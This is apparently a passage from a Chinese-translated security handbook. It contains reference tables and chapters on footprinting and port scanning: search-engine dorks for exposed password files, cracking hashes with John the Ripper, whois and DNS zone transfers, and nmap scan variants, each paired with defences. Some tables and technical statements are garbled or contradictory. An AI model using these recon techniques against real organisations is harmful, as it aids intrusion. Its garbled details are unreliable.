| 43 | 2b | 053 | + |
| 44 | 2c | 054 | , |
| 45 | 2d | 055 | - |
| 46 | 2e | 056 | / |
| 47 | 2f | 057 | / |
| 48 | 30 | 060 | 0 |
| 49 | 31 | 061 | 1 |
| 50 | 32 | 062 | 2 |
| 51 | 33 | 063 | 3 |
| 52 | 34 | 064 | 4 |


## ASCII 编码表

| 53 | 35 | 065 | 5 |
| 54 | 36 | 066 | 6 |
| 55 | 37 | 067 | 7 |
| 56 | 38 | 070 | 8 |
| 57 | 39 | 071 | 9 |
| 58 | 3a | 072 | : |
| 59 | 3b | 073 | ; |
| 60 | 3c | 074 | < |
| 61 | 3d | 075 | = |
| 62 | 3e | 076 | > |
| 63 | 3f | 077 | ? |
| 64 | 40 | 100 | @ |
| 65 | 41 | 101 | A |
| 66 | 42 | 102 | B |
| 67 | 43 | 103 | C |
| 68 | 44 | 104 | D |
| 69 | 45 | 105 | E |
| 70 | 46 | 106 | F |

| 十进制 | 十六进制 | 八进制 | 字符 |
|---|---|---|---|
| 71 | 47 | 107 | G |
| 72 | 48 | 110 | H |
| 73 | 49 | 111 | I |
| 74 | 4a | 112 | J |
| 75 | 4b | 113 | K |
| 76 | 4c | 114 | L |
| 77 | 4d | 115 | M |
| 78 | 4e | 116 | N |
| 79 | 4f | 117 | O |
| 80 | 50 | 120 | P |
| 81 | 51 | 121 | Q |
| 82 | 52 | 122 | R |
| 83 | 53 | 123 | S |
| 84 | 54 | 124 | T |
| 85 | 55 | 125 | U |
| 86 | 56 | 126 | V |
| 87 | 57 | 127 | W |
| 88 | 58 | 130 | X |
| 89 | 59 | 131 | Y |
| 90 | 5a | 132 | Z |
| 91 | 5b | 133 | [ |
| 92 | 5c | 134 | \ |
| 93 | 5d | 135 | ] |
| 94 | 5e | 136 | ^ |
| 95 | 5f | 137 | - |

| 十进制 | 十六进制 | 八进制 | 字符 |
|---|---|---|---|
| 96 | 60 | 140 | - |
| 97 | 61 | 141 | a |
| 98 | 62 | 142 | b |
| 99 | 63 | 143 | c |
| 100 | 64 | 144 | d |
| 101 | 65 | 145 | e |
| 102 | 66 | 146 | f |
| 103 | 67 | 147 | g |
| 104 | 68 | 150 | h |
| 105 | 69 | 151 | i |
| 106 | 6a | 152 | j |
| 107 | 6b | 153 | k |
| 108 | 6c | 154 | l |
| 109 | 6d | 155 | m |
| 110 | 6e | 156 | n |
| 111 | 6f | 157 | o |
| 112 | 70 | 160 | p |
| 113 | 71 | 161 | q |
| 114 | 72 | 162 | r |
| 115 | 73 | 163 | s |
| 116 | 74 | 164 | t |
| 117 | 75 | 165 | u |
| 118 | 76 | 166 | v |
| 119 | 77 | 167 | w |
| 120 | 78 | 170 | x |
| 121 | 79 | 171 | y |
| 122 | 7a | 172 | z |
| 123 | 7b | 173 | { |
| 124 | 7c | 174 | | |
| 125 | 7d | 175 | } |
| 126 | 7e | 176 | ~ |
| 127 | 7f | 177 | DEL |

# HTTP 代码

HTTP 服务器对所有请求都返回一个 HTTP 代码。某些 HTTP 服务器不返回代码描述，仅返回数值。下表可用于确定 HTTP 响应的含义。此表也可用于编写自定义客户端脚本，以分类和理解结果 HTTP 响应。

| 代码 | 描述 |
|---|---|
| 100 | 继续 |
| 101 | 切换协议 |
| 200 | OK |
| 201 | 已创建 |
| 202 | 已接受 |
| 203 | 非权威性信息 |
| 204 | 无内容 |
| 205 | 重置内容 |
| 206 | 部分内容 |
| 300 | 多重选择 |
| 301 | 永久移动 |
| 302 | 临时移动 |
| 303 | 查看其他 |
| 304 | 未修改 |
| 305 | 使用代理 |
| 307 | 临时重定向 |
| 400 | 错误请求 |
| 401 | 未授权 |
| 402 | 需要支付 |
| 403 | 禁止访问 |
| 404 | 未找到 |

## HTTP 状态码 RC 29

| 状态码 | 描述 |
| --- | --- |
| 405 | 方法不允许 |
| 406 | 不接受 |
| 407 | 需要代理身份验证 |
| 408 | 请求超时 |
| 409 | 冲突 |
| 410 | 已永久删除 |
| 411 | 需要长度 |
| 412 | 前提条件失败 |
| 413 | 请求实体过大 |
| 414 | 请求 URI 过大 |
| 415 | 不支持的媒体类型 |
| 416 | 请求的范围无法满足 |
| 417 | 期望失败 |
| 500 | 内部服务器错误 |
| 501 | 未实现 |
| 502 | 网关错误 |
| 503 | 服务不可用 |
| 504 | 网关超时 |
| 505 | 不支持的 HTTP 版本 |

参考中心 HTTP 状态码

## 重要文件

确保以下文件已分配适当的权限：

| 文件名 | 用户 | 组 | 权限 |
|---|---|---|--|
| `/bin` | root | root | drwx-xr-x |
| `/etc` | root | root | drwx-xr-x |
| `/etc/aliases` | root | root | -rw-r--r-- |
| `/etc/default/login` | root | root | -rw----r-- |
| `/etc/exports` | root | root | -rw-r--r-- |
| `/etc/hosts` | root | root | -rw-r--r-- |
| `/etc/hosts.allow` | root | root | -rw------ |
| `/etc/hosts.deny` | root | root | -rw------ |
| `/etc/hosts.equiv` | root | root | -rw------ |
| `/etc/hosts.lpd` | root | root | -rw------ |
| `/etc/inetd.conf` | root | root | -rw------ |
| `/etc/issue` | root | root | -rw-r--r-- |
| `/etc/login.conf` | root | root | -rw------ |
| `/etc/login.access` | root | root | -rw------ |
| `/etc/login.defs` | root | root | -rw------ |
| `/etc/motd` | root | root | -rw-r--r-- |
| `/etc/rmtab` | root | root | -rw-r--r-- |
| `/etc/netgroup` | root | root | -rw------ |
| `/etc/passwd` | root | root | -rw-r--r-- |
| `/etc/rc.d` | root | root | drwx------ |
| `/etc/rc.local` | root | root | -rw------ |
| `/etc/rc.sysinit` | root | root | -rw------ |
| `/etc/secty` | root | root | -rw------ |
| `/etc/security` | root | root | -rw------ |

## 重要文件 RC 31

| 文件名 | 用户 | 组 | 权限 |
| --- | --- | --- | --- |
| `/etc/services` | root | root | -rw-r--r-- |


| `/etc/shadow` | root | root | -r-------- - - |

| `/etc/ssh/ssh_host_key` | root | root | -rw-r------ |

| `/etc/ssh/sshd_config` | root | root | -rw------- - |

| `/etc/ssh/sshd_dsa_key` | root | root | -rw-r------ |

| `/etc/ssh/vsh_host_key` | root | root | -rw-r------ |

| `/etc/ssh/ssh_host_rsa_key` | root | root | -rw-r------ |

| `/etc/ttys` | root | root | -rw-r---- |

| `/root` | root | root | drwx------ |

| `/sbin` | root | root | drxr-xr-x |

| `/tmp` | root | root | drwxrwxrwt |

| `/usr/bin` | root | root | drxr-xr-x |

| `/usr/etc` | root | root | drxr-xr-x |

| `/usr/sbin` | root | root | drxr-xr-x |

| `/var/log` | root | root | drwxr-xr-x |

| `/var/log/authlog*` | root | root | -rw-r--r-- - - |

| `/var/log/boot*` | root | root | -rw-r---- |

| `/var/log/cron*` | root | root | -rw-r---- |

| `/var/log/dmesg*` | root | root | -rw-r---- |

| `/var/log/lastlog*` | root | root | -rw-r---- |

| `/var/log/maillog*` | root | root | -rw-r---- |

| `/var/log/messages*` | root | root | -rw-r---- |

| `/var/log/secure*` | root | root | -rw------- |

| `/var/log/spooler*` | root | root | -rw------- |

| `/var/log/syslog*` | root | root | -rw------- |

| `/var/log/utmp*` | root | utmp | -rw-rw-r-- - - |

| `/var/log/wtmp*` | root | utmp | -rw-rw-r-- - - |

参考重要文件

# 32 参考中心

| 文件名 | 用户 | 组 | 权限 |
| --- | --- | --- | --- |
| `/var/log/xferlog` | root | root | -rw------- |
| `/var/run` | root | root | drwx-xr-x |
| `/var/run/"*.pid` | root | root | -rw-r-- |
| `/var/spool/cron` | root | root | drwx------ |
| `/var/spool/cron/crontabs/` | root | root | -r------- |
| `/var/spool/mail` | root | mail | drwxrwxr-x |
| `/var/spool/mail/*` | user | user | -rw-rw-- |
| `/var/tmp` | root | root | drwxrwx |

# 第一部分：攻击与防御

## 第1章 指纹识别

## 第2章 扫描与识别

## 第3章 枚举

## 第4章 远程攻击

## 第5章 权限提升

## 第6章 隐藏

本页特留

# 第1章 指纹识别

在本章：

- 搜索引擎
- 域名注册商
- 区域注册局
- DNS 查询
- 邮件交换
- 区域传输

第一部分：攻击与防御

指纹识别是使用可用方法收集有关目标的数据。这些信息可以用于更好地了解目标架构。本章介绍了使用搜索引擎和域名注册商收集信息的不同方法。尽管这是攻击中最不显眼的方面，但是一个重要的步骤。

## 搜索引擎

搜索引擎可以发现有趣的细节并导致敏感信息。由于查询是在搜索引擎数据库中进行的，除非直接访问 URL，否则它们并不明显。存在许多执行创意查询的方法。

### 寻找漏洞

许多公司发布职位，可以提供大量关于安全状况的信息。例如，如果一家公司正在积极招聘，他们的防火墙配置可能很弱，这一事实为黑客提供了更多关注方向。诸如 `http://www.monster.com/` 等服务已知可以寻找此类信息。

### 搜索 EDGAR

`EDGAR`（电子数据收集、分析和检索）数据库包含上市公司的信息。收购等细节特别受关注，因为大型组织在管理网络安全方面往往存在问题。`EDGAR` 数据库还可以被潜在入侵者用于收集组织的季度和年度报告。`EDGAR` 系统位于 `http://www.sec.gov/edgar.shtml`。

# 第1章 指纹识别 查找日志文件的敏感性

许多程序写入特定的日志文件。有时，这些文件被意外放在 Web 服务器的根目录下。例如，在 `http://www.google.com/` 上进行如“Index of dead letter”的查询将提供指向死信文件的链接（见图1-1）。注意，死信是在用户发送邮件时创建的，可能包含邮件内容。此文件与其他日志文件可能向潜在入侵者提供关键机密。

搜索引擎


John,

已将你的密码重置为 'abcd123'。请立即更改。

Eric,

2003年1月12日星期日 webmaster@somecompany.com 写道：

> 亲爱的 Eric，
> 
> 你能重置我的账号 (john) 吗？我不记得了。
> 
> 谢谢。John。

图1-1. Web 服务器提供的用户 dead.letter 文件内容

第一部分：攻击与防御

还有许多其他已知日志文件可以搜索。示例包括 `syslog`、`maillog`、`spooler`、`messages`、`access_log` 和 `error_log`。

### 搜索 Web 服务器统计

各种 Web 应用用于向管理员提供流量统计。流量统计大多受密码保护，并包含 URL。搜索引擎可以发现提供此类数据的错误配置主机。例如，在 `http://www.google.com/` 上搜索如“Index of stats”可能会暴露错误配置为无人实体提供统计信息的 Web 服务器位置（见图1-2）。


| 命中次数 | 字节数 | 文档 |
|---|---|---|
| 39210 | 24155139 | / |
| 24056 | 20431305 | CGI 计数器 |
| 18231 | 1933210 | 404 未找到 |
| 6310 | 13235633 | / |
| 4319 | 2429201 | /cgi/show.calendar.pl |
| 1949 | 2098321 | /users/joe/placesnotetoat.html |
| 1130 | 249201 | /users/joe/placesnotetoat.html |
| 1113 | 1345203 | /jobs/availablepositions.html |

**图1-2.** Web 统计数据由 somecompanyexample.com 向全球提供。

### 定位受保护的数据资源

敏感信息通常存放在网站上名为“protected”、“secret”、“passwords”等的目录中。很多时候，这些目录并没有经过密码保护，可以被轻易搜索到。

例如，Apache Web 服务器通常配置为当目录中存在某些配置和密码文件时提供身份验证。名为 `.htpasswd` 的密码文件不应由 Web 服务器提供。若要在互联网 `http://www.google.com` 上搜索此类文件，请执行以下查询：““Index of” .htpasswd。以下是一个 `.htpasswd` 文件的示例：

```
joe:1WJdcijCqWFA
```

```
admin:XrouH05qTM1U.
```

此文件中包含的密码哈希可以使用“John the Ripper”之类的密码破解器轻松破解。


```bash
[bash]$ john .htpasswd
Loaded 2 passwords with 2 different salts (Traditional DES [24/32 4K])
password (joe)
mypass (admin)
guesses: 2 time: 00:00:21 (3) c/s: 83610 trying: bly045 - Sist20.
```

John the Ripper 可以在 http://www.openwall.com/john/ 获取。

### 遍历配置文件查找敏感信息

包含密码、密钥、用户名、内部 IP 地址和其他敏感数据的各种配置文件，在被放置在 Web 目录中时，会被各种服务器错误地发布。搜索这些文件的关键在于知道它们的名称。一个潜在的漏洞文件是 `ssh_config`，它包含了 SSH 服务器的配置信息。潜在的入侵者可能会使用查询语句“Index of” `ssh_config` 进行搜索，以找到提供 `ssh_config` 文件的 Web 服务器。由于配置文件包含敏感信息，它们可能会暴露外部实体不应访问的关键信息。

### 搜索 Usenet 存档查找管理缺陷

新闻组的帖子通常包含可以作为攻击者辅助的信息。例如，管理员有时会向技术性 Usenet 群组发布帖子以寻求某些主题的帮助。此类帖子可能会暴露大量信息，并提醒入侵者管理员在配置某些服务时遇到了困难。可以使用网站 http://groups.google.com/ 来搜索此类请求。

### 防御搜索引擎泄露漏洞

强烈建议执行以下防御策略，以最大限度地减少与搜索引擎暴露和 Web 服务器配置错误相关的敏感信息风险：

- 不要以可能暴露与安全相关的管理弱点的方式发布职位空缺。
- 对你的 Web 服务器配置及其允许提供的数据进行审计是一个好主意。如果你有 Web 服务器本身的访问权限，则可以在 Web 根目录内部搜索特定信息。例如，以下命令将列出包含“log”单词的文件：

`ls -aR /var/web-root/html | grep log`

静态数据中的内容也可以被搜索。若要在 Web 根目录包含的文件内容搜索特定单词（例如“password”）：

```bash
grep -R password /var/web-root
```

在无法本地访问 Web 服务器文件系统的情况下，`wget` 是一个很好的命令行工具，可以用于镜像网站。一旦完成，就可以像上面建议的那样对数据进行 `greps` 操作。`wget` 的用法示例：

```bash
wget -m -np http://www.somecompanyasexample.com/
```

`wget` 工具可以在 http://wget.sunsite.dk 获取。
- 必须指示管理员使用其真实姓名和电子邮件地址在技术新闻组和公告板上发布职位空缺。

## 域名注册商

一个组织可能在不同位置拥有许多网络。通过执行 `whois` 查询，可以发现与特定组织相关的域名。大多数域名注册商都有关联的公共 `whois` 服务器（监听在端口 69），客户端可以连接到该服务器以查询域名所有者的信息。域名 `whois` 查询返回的信息包括关联的 POC 和 DNS IP 地址，这些对于确定目标的网络存在非常有用。

由于域名可以通过许多注册商进行注册，因此你必须先查询域名是在哪个注册商处注册的，然后从关联的注册商查询域名记录。为了查询到正确的注册商，必须在公共 `whois` 服务器 `whois.crsnic.net` 上执行查询。

许多注册商限制了后续章节中提到的查询类型。如果以下任何一个查询没有从特定 `whois` 服务器获得积极响应，那么它们只需在另一个注册商的 `whois` 服务器上运行即可。

### 通过域名查询域名注册商记录

要查询 `somecompanyanexample.com`，你必须使用命令行 `whois` 工具（Unix 和 Linux 发行版自带）在 `whois.crsnic.net` 上运行 `whois` 查询，如下所示：

```bash
[bash]$ whois -h whois.crsnic.net somecompanyanexample.com
[whois.crsnic.net]
```

Whois Server Version 1.3

.com、.net 和 .org 域名的域名现在可以在许多不同的竞争注册商处注册。访问 http://www.internet.net 获取详细信息。

Domain Name: SOMECOMPANYASANEXAMPLE.COM

Registrar: SOME REGISTRAR, INC.

Whois Server: somewhoisserver.com

Referral URL: http://www.someregistrarasanexample.com

NS Server: NS1.SOMEEXAMPLESERVER.NET

NS Server: NS2.SOMEEXAMPLESERVER.NET

Updated: 05-nov-2001

>>> Last update of whois database: Sat, 11 Jan 2003 17:11:52 EST <<<

上述查询将返回域名注册的实际注册商及其 `whois` 服务器。在我们之前的示例中，`somecompanyanexample.com` 注册商的 `whois` 服务器是 `whois.somewhoisserver.com`。现在，我们必须查询 `whois.somewhoisserver.com`。

```bash
$bash whois -h whois.somewhoisserver.com somecompanyasanexample.com
[whois.somewhoisserver.com]
NOTICE AND WARNING BANNER HERE
```

Registrant:

Lname, Fname (SOMEHANDLE) username@somecompanyasanexample.com

1234 Some St.

Somecity, SOMESTATE 99999

SOME COUNTRY

Domain Name: somecompanyasanexample.com

Administrative Contact, Technical Contact:

Lname2, Fname2 (SOMEHANDLE2) username2@somecompanyasanexample.com

5678 Some St.

Somecity, SOMESTATE 99999

SOME COUNTRY

(123)456-7890Record expires on 31-12-2004

Record created on 31-12-2002

Database last updated on 12-Jan-2003 03:44:29 EST.

域名服务器如下：

- NS1.SOMEPLERVER.NET 10.0.0.1
- NS2.EXAMPLEPLERVER.NET 192.168.1.1

### 通过域名名前缀查询域名注册商记录

为了搜索以“somecompany”开头的域名，可以使用以下查询：

```bash
$bash whois -h whois.crsnic.net "somecompany"
[whois.somewhoisserver.com]
```

Whois version 1.x

NOTICE AND WARNING BANNER HERE

SOMECOMPANY.COM

SOMECOMPANY.ORG

SOMECOMPANYASANEXAMPLE.COM

SOMECOMPANYTHATESNOTEXIST.COM

要提取特定记录，请查询“xxx”，其中 xxx 是列表中显示之一。如果记录相同，请使用 "=xxx”查询以获取完整显示。

>>> Last update of whois database: Sat, 11 Jan 2003 18:00:01

### 通过 Handle 查询域名注册商记录

列在 `whois` 服务器上的个人通常关联有一个 `handle`。你可以查询特定的 `handle` 以找到相关的联系信息：

```bash
$bash$ whois -h whois.somewhoisserver.com "handle HANDLE"
[whois.somewhoisserver.com] HERE
NOTICE AND WARNING BANNER HERE
```

Lastname, FirstName (SOMEHANDLE) username@somecompanyexample.com

1234 Some

Somecity, SOMESTATE 99999

SOME COUNTRY

Database last updated on 12-Jan-2003 03:44:29 EST.

### 通过电子邮件查询域名注册商记录


列在 whois 服务器上的个人通常关联有一个电子邮件地址。可以通过提供完整的电子邮件地址或其部分来搜索用户。因此，查询

```bash
whois -h whois.somewhoisserver.com "@somecompanyasanexample.com"
```

将返回包含 `@somecompanyasanexample.com` 域名的记录个人。

### 防止由于域名注册商记录导致的暴露

确保列在 whois 记录中的电子邮件地址以与组织名称不同的域名结尾。这将他人通过电子邮件查询你的记录变得困难。此外，一些域名注册商提供将他们的联系信息放在 whois 记录中，而不是你的个人联系信息。利用这个选项是一个好主意，可以防止你的个人联系信息暴露给潜在的入侵者。

## 区域互联网注册机构

与域名类似，组织可以分配到 IP 地址块。可路由的 IP 地址由四个主要的区域互联网注册机构（RIR）分配给组织，如表 1-1 所示。表 1-1 包含了四个主要 RIR 的列表。然而，新的 RIR 计划在不久后建立。详细信息和更新请参阅 `http://www.asoann.org/`。许多注册者限制了后续章节中提到的查询类型。如果后续的任何查询都没有从特定服务器获得积极响应，它们可能是针对另一个注册者的。

### 通过公司前缀查询 RIR 记录

要查找某个公司名称的记录，可以执行如下查询：

`whois -h whois.whoisser.net "companyname"`

搜索以 "somecompany" 开头的 RIR 记录：

```bash
whois -h whois.whoisser.net "somecompanyasexample"
示例公司 (SOMEC)
示例公司 (SOMECA)

### RIR Whois 数据库，最后更新于 2003-01-11 01:00
```

| 名称 | Whois 服务器 | 区域 |
| --- | --- | --- |
| 美国互联网数字注册局 (ARIN) http://www.arin.net/ | whois.arin.net | 北美、加勒比地区和非洲 |
| 太平洋信息中心 (APNIC) http://www.apnic.net/ | whois.apnic.net | 太平洋 |
| 欧洲网络协调理事 (RIPE NCC) http://www.ripe.net/ | whois.ripe.net | 欧洲、中东、亚洲和非洲国家 |
| 拉丁美洲和加勒比地区注册局 (LACNIC) http://lacnic.net/ | whois.lacnic.net | 拉丁美洲和加勒比地区 |

表 1-1. 四个区域互联网注册机构

### 通过 IP 地址或网络块查询 RIR 记录

要查找特定 IP 地址块的所有者，请尝试这种命令形式：

`whois -h whoisser.net ipaddressblock`

`192.168.1.0/24` 地址属于一个不可路由的 IP 地址块。关于不可路由 IP 范围的更多信息，请参阅位于 `http://www.faqs.org/rfc/rfc1918.html` 的 RFC 1918。假设 `192.168.1.0/24` 是我们示例的有效路由 IP 范围。如果在 `whois.arin.net` 上搜索此块，我们需要尝试如下查询：

```bash
$ whois -h whois.arin.net 192.168.1.0

arin.net

组织名称: 互联网地址分配机构 (IANA)

组织 ID: IANA

网络范围: 192.168.0.0 - 192.168.255

CIDR: 192.168.0.0/16

网络名称: IANA-SPECIAL

网络句柄: NET-192-0-8-1

父级: NET-0-0-0-0

网络类型: IANA 特殊用途

名称服务器: BLACKHOLE-1.IANA.ORG

名称服务器: BLACKHOLE-2.IANA.ORG

注释: 此块留作特殊用途。

更多信息请参阅 RFC 1918。

注册日期: 1994-03-15

更新日期: 2002-09-16

技术句柄: ARIN-IANA

技术名称: 互联网分配名称与数字公司

技术电话: +1-234-567-8900

技术邮箱: res-ip@iana.org
```

```bash
### ARIN Whois 数据库，最后更新于 2003-01-12 20:00

### 输入 ? 获取关于搜索 ARIN Whois 数据库的额外提示。
```

### 通过句柄查询 RIR 记录

列在 RIR whois 服务器上的个人联系人（POC）和组织都有关联的句柄。你可以查询特定的句柄来查找联系信息：

```bash
whois -h whoisserver.com "HANDLE"
```

# 14 第一部分：黑客技术与防御

为了搜索 Some-Company-As-An-Example 的句柄 (`SOMECA`)，我们将执行以下操作：

```bash
$ whois -h whoisserver.net "SOMECA"

[whois.whoisserver.net]

组织名称: Some Company As An Example

组织 ID: SOMECA

地址: 1234 Some St.

国家: SOME COUNTRY

注释:

注册日期: 1998-08-01

更新日期: 1998-08-01

### RIR Whois 数据库，最后更新于 2003-01-11 00:00
```

### 通过电子邮件查询 RIR 记录

列在 whois 服务器上的个人通常有一个关联的电子邮件地址。可以通过提供完整的电子邮件地址或其部分内容来搜索用户。因此，以下查询将返回电子邮件地址包含 `@somecompanyasanexample.com` 域名的个人姓名：

```bash
$ whois -h whoisserver.net "@somecompanyasanexample.com"

[whois.whoisserver.net]

username@somecompanyexample.com

(123)456-7890

#IR Whois 数据库，最后更新于 2003-01-11 00:00
```

### 防止由于 RIR 记录导致的泄露

列在 RIR 记录中的电子邮件地址应以与组织名称不同的域名结尾。这将使得通过电子邮件查询你的记录变得困难。某些 RIR 允许使用信箱地址联系地址。

## DNS 反向查询

DNS 反向查询是指向 DNS 服务器查询与 IP 地址关联的主机名。

### 执行 DNS 反向查询

可以使用 `host` 命令执行反向查询：

```bash
$ host 10.0.0.3
```

这种查询不仅告诉我们主机名，还泄露了不应公开的信息。可以采取以下预防措施来减少此类暴露：

- 不要分配显示任何信息的主机名。
- 考虑分配包含 IP 地址的主机名。

### 邮件交换

要查找组织邮件服务器的主机名和 IP 地址，可以使用命令行工具 `dig`：

```bash
$ dig mx somecompanyasanexample.com
;;HEADER-- opcode: QUERY, status: NOERROR, id: 1234
;; flags: qr aa ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
somecompanyasanexample.com. MX

;; ANSWER SECTION:
somecompanyasanexample.com. MX 86400
mail.somecompanyexample.com.
```

### 区域传输

DNS 服务器通常被配置为主服务器或从服务器。这种方法是为了提供层次结构和冗余。区域传输发生在从服务器联系主服务器以更新其区域信息时。通过区域传输获得的 DNS 主机名信息可能会暴露组织内特定主机的角色或位置。许多 DNS 服务器 配置错误，允许任何主机执行区域传输。

### 使用 host 命令执行区域传输

要对特定组织尝试区域传输，需要 DNS 服务器 IP 地址。如果没有此信息，可以尝试对目标域名进行查询，这将提供相关的 DNS IP 地址。一旦获得了 DNS 服务器 IP 地址，可以使用 `host` 命令尝试区域传输：

`host -l domain DNSIP`

例如：

```bash
$ host -l somecompanyanyexample.com 10.0.0.1
Using domain server:
Name: 10.0.0.1
```

地址：10.0.0.1#53

别名：

```
somecompanyasanexample.net SOA ns1.someexampleserver.net.
使用域名服务器：
Name: 10.0.0.1
Address: 10.0.0.1#53
```


```
somecompanyasanexample.net name server ns1.someexampleserver.net.
使用域名服务器：
Name: 10.0.0.1
Address: 10.0.0.1#53
```

```
Somecompanyasanexample.net name server ns2.someexampleserver.net.
使用域名服务器：
Name: 10.0.0.1
Address: 10.0.0.1#53
```

```
somecompanyasanexample.com has address 192.168.1.10
使用域名服务器：
Name: 10.0.0.1
Address: 10.0.0.1#53
```

```
somecompanyasanexample.com mail is handled by 10 mail.somecompanyasanexample.com
使用域名服务器：
Name: 10.0.0.1
Address: 10.0.0.1#53
```

```
mail.somecompanyasanexample.com has address 192.168.1.10
使用域名服务器：
Name: 10.0.0.1
Address: 10.0.0.1#53
```

```
firewall.somecompanyasanexample.com is an alias for vpn.somecompanyasanexample.com
使用域名服务器：
Name: 10.0.0.1
Address: 10.0.0.1#53
```

```
vpn.somecompanyasanexample.com has address 192.168.1.9
使用域名服务器：
Name: 10.0.0.1
Address: 10.0.0.1#53
```

```
payroll.somecompanyasanexample.com has address 192.168.1.33
```

# 18 部分 I：攻击技术与防御

使用域名服务器：
Name: `10.0.0.1`
Address: `10.0.0.1#53`

从这个例子可以明显看出，如果入侵者成功执行了区域传输，他或她就可以获得有关组织内主机角色及其 IP 地址的信息。

### 防止区域传输滥用

为了防止区域传输滥用，强烈建议采取以下措施：

- 不要允许未经授权的主机从你的 DNS 执行区域传输。
- 由于区域传输是在 TCP 53 端口上进行的，请配置你的防火墙拦截 TCP 53 端口的入站连接。
- 为内网主机安装一个独立的 DNS 服务器是一个好主意。该 DNS 服务器不应能从外部访问。

### 路由追踪 (TRACEROUTE)

借助前面的查询，只需知道目标组织的名称即可获取 IP 地址。由于 IP 数据包通过不同的路径到达目的地，因此了解源主机（你自己）和目的主机之间的网关将是有益的。

### 执行路由追踪

可以使用名为 `traceroute` 的命令行工具来执行路由追踪：

```
$ traceroute 10.0.0.1
traceroute to 10.0.0.1 (10.0.0.1), 30 hops max, 38 bytes packets
1 yours.gateway.net (192.168.10.10) 13.069ms 8.099ms 10.133ms
2 192.168.9.1 (192.168.9.1) 8.675ms 9.481ms 7.214ms
3 10.1.1.1 (10.1.1.1) 9.292ms 9.446ms 12.368ms
4 nsl.comexampleserver.net (10.0.0.1) 9.736ms 9.623ms 9.647ms
```

`traceroute` 程序通过向目的地的高端口发送 UDP 数据包来工作，这些数据包的 TTL（生存时间）值最初设置为1，然后随后的每个数据包递增1。网关在沿路由转发之前会将 IP 数据包的 TTL 减1。

# 第 1 章：足迹扫描 19

如果 IP 数据包的 TTL 等于0，则特定的网关将向源发送一个“ICMP Time to Live Exceeded”包。因此，`traceroute` 工具通过查看返回的“ICMP Time to Live Exceeded”包的源来确定通往目的地网关的 IP 地址。

`traceroute` 工具默认发送 UDP 数据包，但在带有 `-I` 选项运行时，可以使其使用 ICMP 数据包。

某些网关和防火墙被配置为丢弃 UDP 和 ICMP 数据包，和或丢弃传出的“ICMP Time to Live Exceeded”包。这将 `traceroute` 跳过此类网关和防火墙。有时，防火墙被配置为允许源端口为 20 (FTP) 或 53 (DNS) 的包 `traceroute` 中的 `-p` 选项用于设置输出 UDP 数据包的源端口，以便利用此类防火墙规则。

## 防止入站路由追踪

可以采取以下措施防止入站路由追踪：

- 配置防火墙丢弃入站 ICMP 包。
- 配置防火墙丢弃传出的“ICMP Time to Live Exceeded”包。
- 配置防火墙允许源端口为 20 (FTP) 或 53 (DNS) 的包。

## 端口扫描

端口扫描是连接到主机的 UDP 和 TCP 端口的过程，以确定哪些端口处于监听状态。端口扫描可以通过许多不同的方式实现。以下是最常见且实用的端口扫描方法。

### TCP Connect

这种类型的扫描使用操作系统内核提供的 TCP `open` 系统调用来连接到目标主机上的指定端口。这是通过三次握手建立 TCP 连接的原始方法：



由于由于 TCP-connect 扫描完成了三次握手，因此监听目标端口的应用程序将对连接尝试做出响应。这将导致应用程序记录连接尝试。因此，这种端口扫描方法是不隐蔽的。

#### 使用 nmap 执行 TCP-Connect 端口扫描

在 `nmap` 中使用 `-sT` 选项将执行 TCP-connect 扫描：

```
[bash] nmap -sT 10.0.0.1
```

```
Starting nmap. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (10.0.0.1):
(The 1595 ports scanned but not shown below are in state: closed)
Port    State   Service
25/tcp  open    smtp
113/tcp open    auth
6000/tcp open    X11

nmap run completed -- 1 IP address (1 host up) scanned in 0 seconds
```

> TCP 和 UDP 端口范围从 1 到 65535。默认情况下，`nmap` 扫描常用端口。扫描所有 65,535 个端口非常耗时，但可以使用 `nmap` 使用 `-p` 标志来实现：

`nmap -sT 192.168.1.1 -p 1-65535`

### FTP Bounce 扫描

由于 FTP 协议的设计，当 FTP 客户端使用“活动”模式请求数据传输时，FTP 服务器必须向 FTP 客户端发起连接。FTP 客户端发出 `PORT` 命令，并将 IP 地址和监听端口号作为参数。如果 FTP 客户端发出带有另一个主机 IP 地址的 `PORT` 命令，FTP 服务器将尝试连接到该主机。因此，FTP 协议的这一特性可以用于代理扫描。

`nmap` 命令包含一个 `-b` 标志来执行“FTP bounce”扫描：

```
nmap -b username:password@ftp.somecompanyexample.com:21 -p 4000-8080 target.somecompanyexample.com
```

> FTP 客户端在请求数据传输时可能使用被动模式，这会导致 FTP 客户端连接到 FTP 服务器上的某个端口以执行数据传输。然而，被动模式 FTP 有其自己的问题。被动模式 FTP 客户端可能会受到“连接劫持”漏洞的影响。请参见第 4 章。

### TCP SYN/半开放

这种类型的扫描会导致扫描器向目标主机发送 SYN 数据包。如果目标主机在特定端口上监听，它将用 SYN+ACK 响应。如果主机存活，将收到 RST 数据包。由于这种扫描方法没有完成 TCP 三次握手，因此它是隐蔽的；因为它不会被目标主机记录。

#### SYN 扫描

在 `nmap` 中使用 `-sS` 标志将执行 SYN 扫描：


```
[bash]# nmap -sS 192.168.1.150
nStarting nmap V 3.00 ( www.insecure.org/ )
Interesting ports on (192.168.1.150):
(The 1599 ports scanned but not shown below are in state: closed)
Port    State   Service
22/tcp open    ssh
113/tcp open    auth

Nmap run completed -- 1 IP address (1 host up) scanned in 2 seconds
```

# 第 2 章：扫描与识别

## 源端口扫描

由于 FTP 协议的设计，当 FTP 客户端使用活动模式请求数据传输时，FTP 服务器必须向 FTP 客户端发起连接。为了方便这种操作，许多防火墙被配置为允许所有源端口设置为 20 的入站 IP 包。此外，来自 DNS 服务器的 IP 包其源端口设置为 53，因此许多防火墙允许所有源端口为 53 的入站数据包。可以使用 `-g` 关指示 `nmap` 将其数据包的源端口设置为常量：

```
nmap -SS -g 20 192.168.1.1
```

### FIN

在这种方法中，FIN 数据包被发送到目标主机。如果目标主机存活但在特定端口上监听，它将响应 RST 数据包。然而，如果目标主机在特定端口上监听，它将不响应。注意，Microsoft Windows 主机在所有情况下都会发送 RST 数据包。这很有意义，因为有助于将目标主机识别为 Microsoft Windows 主机。

> FIN IP 包用于拆已建立的 TCP 连接。

#### FIN 扫描

在 `nmap` 中使用 `-sF` 标志将执行 FIN 扫描：

```
